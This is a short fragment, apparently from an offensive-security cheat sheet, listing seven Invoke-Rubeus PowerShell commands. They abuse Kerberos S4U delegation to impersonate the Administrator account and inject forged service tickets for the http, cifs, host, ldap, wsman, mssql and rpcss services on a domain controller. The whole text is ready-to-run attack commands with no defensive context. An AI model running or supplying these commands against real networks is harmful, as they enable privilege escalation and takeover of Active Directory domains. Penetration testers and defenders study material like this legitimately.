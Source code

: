 ## Generate service tickets for all service types

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:http/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:cifs/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"
<strong>
</strong><strong>Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:host/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"
</strong><strong>
</strong><strong>Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:ldap/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"
</strong>
Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:wsman/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:mssql/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"

Invoke-Rubeus -Command "s4u /impersonateuser:Administrator /self /altservice:rpcss/dc01.security.local /user:srv01$ /ticket:$ticket /nowrap /ptt"
</code></pre>

